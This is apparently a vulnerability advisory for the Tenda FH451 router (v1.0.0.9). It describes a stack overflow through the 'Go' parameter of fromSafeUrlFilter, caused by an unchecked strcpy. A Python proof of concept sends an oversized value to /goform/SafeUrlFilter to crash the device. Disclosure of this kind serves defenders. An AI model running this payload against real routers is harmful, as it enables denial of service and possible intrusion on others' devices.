 # Tenda FH451 fromSafeUrlFilter_Go
### Overview
vendor: Tenda

product: FH451

version: v1.0.0.9

type: Stack Overflow
### Vulnerability Description
Tenda FH451 v1.0.0.9 were discovered to contain a stack overflow via the Go parameter in the fromSafeUrlFilter function.

### Vulnerability details
In function fromSafeUrlFilter line 33, it reads in a user-provided parameter `Go`. The variable `s_1` is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/3.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/SafeUrlFilter"

data = {
    "menufacturer": "tenda",
    "Go": "a" * 1000,
}

response = requests.post(url, data=data)
print(response.text)
```